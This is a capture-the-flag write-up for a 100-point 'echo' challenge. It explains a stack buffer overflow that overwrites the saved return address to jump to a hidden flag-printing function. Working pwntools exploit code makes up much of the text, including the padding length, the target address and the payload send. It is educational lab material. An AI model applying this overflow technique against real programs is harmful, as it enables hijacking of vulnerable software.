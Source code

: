 # echo 100 pts

##Overview
After looking in a disassembler, I discovered there was a
method that will open flag.txt and print it. Only issue
is that the method isn't called during execution.
Our goal is to change that. Given this was only a 100 pts 
and it was in the exploit category, I imediately thought
buffer overflow.

Using trial and error (and then later math in disassembler)
I was able to calculate that the program was only allocating
58 bytes of space on the stack for the input entered by the
user. Byte 58 - 62 would overwrite the ebp on the stack and
then 62 - 66 would overwrite the stored return address of
current method 'test'. Technically the "\n" is also written
to the stack but it doesn't overflow anything important here.

The goal was to overwrite the eip register with the address 
of the method that would display the flag.

##Code
pwntools is great. You can set the context at the start
and it will pack everything and even generate shellcode
(not used here) that will work on that machine. No more
worrying about endianess or 64 bit vs 32 bit or compiling
custom shellcode.
Installation of pwntools is a simple ```pip install pwntools```.
This code should work even when they take servers down. There will
need to be a local file called flag.txt, and pwntools will 
attach your process of echo to a local port to simulate a 
remote exploit.
```python
from pwn import *
context(arch = 'i386', os = 'linux')

if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./echo'])
    r = remote('localhost', l.lport)
```

Addr is the address of the method that opens and prints flag.txt. 
This can be found using the free version of Ida, gdb or I personally
used Hopper. Radare2 also seems promising.
```python
overflow = "a"*62
addr = 0x0804857d 
```
Now let's construct the payload and send it. Let's thank pwntools for
making this easy
```python
overflow += p32(addr)

# Send our exploit. Don't forget the newline..
r.send(overflow + "\n")
print "[*] Overflow sent."
```
This is where I made a rookie mistake. The first thing
returned is the result that includes echo. recv() only
reads until it receives a newline. To get the flag you have
to call recv() twice.
```python
r.recv() # garbage echo'd back to us

# Now get the flag, display it and feel accomplished.
flag = r.recv()
print "[*] Flag: " + flag
r.clean()
r.close()
# RyanAiden
```
